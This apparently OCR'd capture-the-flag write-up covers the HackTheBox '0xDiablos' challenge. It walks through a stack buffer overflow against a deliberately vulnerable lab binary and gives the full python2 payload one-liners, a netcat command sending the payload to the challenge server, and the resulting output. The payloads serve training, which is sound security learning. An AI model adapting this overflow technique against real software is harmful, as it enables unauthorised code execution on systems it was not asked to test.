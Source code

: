 Payload is now `python2 -c "print('A'\*188 + '\xe2\x91\x04\x08')" | ./vuln`

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```

we print A 188 times instead of 184 because we need to override the return value and past the base pointer (worth 4 bytes)

It didnt work yet on server...there are 2 arguments in said function we need to match

```
│ 0x08049246 817d08efbead. cmp dword [arg_8h], 0xdeadbeef
│ ┌─< 0x0804924d 751a jne 0x8049269
│ │ 0x0804924f 817d0c0dd0de. cmp dword [arg_ch], 0xc0ded00d
│ ┌──< 0x08049256 7514 jne 0x804926c
```

we convert 0xdeadbeef and 0xc0ded00d to hex format and add them to payload + 4 bytes of characters

Now the final paylaod is:

`python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | ./vuln`

used an [exploit.py](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/oxdiablos/exploit.py) script for better comfort and usabilty

You can also use netcat directly

```
python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | nc 138.68.131.63 31365
You know who are 0xDiablos:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAﾭ�
HTB{Ìnsert_flag_here}
```

How was that an easy challenge? Imagine the overall difficulty now...Go learn some assembly asap!!!
